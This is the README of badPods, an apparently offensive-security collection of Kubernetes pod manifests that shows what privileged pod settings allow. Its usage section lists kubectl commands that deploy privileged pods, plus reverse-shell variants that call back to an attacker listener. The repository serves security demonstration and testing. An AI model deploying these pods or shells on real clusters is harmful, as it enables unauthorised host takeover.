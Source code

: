 # badPods

A collection of yamls that create pods with different elevated privileges. Quickly demonstrate the impact of allowing specific security sensitive pod specifications. 

## Background
Occasionally pods need access to privileged resources on the host, so the Kubernetes pod spec allows for it. However, this level of access should be granted with extreme caution. Administrators have ways to prevent the creation of pods with these security sensitive pod specifications using Pod Security Policies or with admission controllers like OPA Gatekeeper. However, the real-world security implication of allowing a certain attributes is not always understood, and quite often, pod creation polices are not as locked down as they should be. 

## Purpose
What if you can create a pod with just `hostNetwork`, just `hostPID`, just `hostIPC`, just `hostPath`, or just `privileged`? What can you do in each case? This respository aims to help you answer those questions. 

## Prerequisites
In order to be successful in this attack path, you'll need the following: 

1. Access to a cluster 
1. Permission to create pods in at least one namespace. If you can exec into them that makes life easier.  
1. A pod security policy (or other pod admission controller's logic) that allows pods to be created with one or more security sensitive attributes, or no pod security policy / pod admission controller at all

## The badPods line-up
In most situations, if you have permission to create pods, you also have permission to `exec` into them. However, that is not always the case so a version of each pod is included that will call back to your listener as soon as the pod is created. 

Notes | readme | pod | revshell
-- | -- | -- | --
Everything allowed | [readme](yaml/everything-allowed/README.md) | [yaml](yaml/everything-allowed/pod-everything-allowed.yaml) | [yaml](yaml/everything-allowed/pod-everything-allowed-revshell.yaml)
Privileged and hostPid | [readme](yaml/priv-and-hostpid/README.md) | [yaml](yaml/priv-and-hostpid/pod-priv-and-hostpid.yaml) | [yaml](yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml)
Privileged only | [readme](yaml/priv/README.md) | [yaml](yaml/priv/pod-priv.yaml) | [yaml](yaml/priv/pod-priv-revshell.yaml)
hostPid only | [readme](yaml/hostpid/README.md) | [yaml](yaml/hostpid/pod-hostpid.yaml) | [yaml](yaml/hostpid/pod-hostpid-revshell.yaml)  
hostNetwork only | [readme](yaml/hostnetwork/README.md) | [yaml](yaml/hostnetwork/pod-hostnetwork.yaml) | [yaml](yaml/hostnetwork/pod-hostnetwork-revshell.yaml)
hostIPC only | [readme](yaml/hostipc/README.md) | [yaml](yaml/hostipc/pod-hostipc.yaml) | [yaml](yaml/hostipc/pod-hostipc-revshell.yaml)
Nothing allowed | [readme](yaml/nothing-allowed/README.md) | [yaml](yaml/nothing-allowed/pod-nothing-allowed.yaml) | [yaml](yaml/nothing-allowed/pod-nothing-allowed-revshell.yaml)


# Impact - What's the worst that can happen?
Check out blog post here

# Usage
 Each resource in the `yamls` directory targets a specific attribute or a combination of attributes that expose the cluster to risk when allowed. Each subdirectory has it's own usage information which includes tailored post-exploitation ideas and steps.  

### Clone the repo
```bash
git clone https://github.com/BishopFox/badPods
cd badPods
```

### Create the pods (or at least try to create them)

```bash
kubectl apply -f ./yaml/everything-allowed/pod-everything-allowed.yaml
kubectl apply -f ./yaml/priv-and-hostpid/pod-priv-and-hostpid.yaml 
kubectl apply -f ./yaml/priv/pod-priv.yaml
kubectl apply -f ./yaml/hostpath/pod-hostpath.yaml
kubectl apply -f ./yaml/hostpid/pod-hostpid.yaml 
kubectl apply -f ./yaml/hostnetwork/pod-hostnetwork.yaml
kubectl apply -f ./yaml/hostipc/pod-hostipc.yaml
```

### Reverse shell version of each pod
If you can create pods but not exec  into them, you can use the reverse shell version of each pod. To avoid having to edit each pod with your host and port, you can environment variables and the `envsubst` command. Remember to spin up all of your listeners first!

```bash
HOST="10.0.0.1" PORT="3111" envsubst < ./yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3112" envsubst < ./yaml/hostpid/pod-hostpid-revshell.yaml  | kubectl apply -f -
HOST="10.0.0.1" PORT="3113" envsubst < ./yaml/hostnetwork/pod-hostnetwork-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3114" envsubst < ./yaml/hostpath/pod-hostpath-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3115" envsubst < ./yaml/hostipc/pod-hostipc-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/everything-allowed/pod-everything-allowed-revshell.yaml | kubectl apply -f -
```

# Acknowledgements 
Thank you [Rory McCune](https://twitter.com/raesene), [Duffie Cooley](https://twitter.com/mauilion), [Brad Geesaman](https://twitter.com/bradgeesaman), [Tabitha Sable](https://twitter.com/tabbysable), [Ian Coldwater](https://twitter.com/IanColdwater), and [Mark Manning](https://twitter.com/antitree) for publicly sharing so much knowledge about Kubernetes offensive security. 
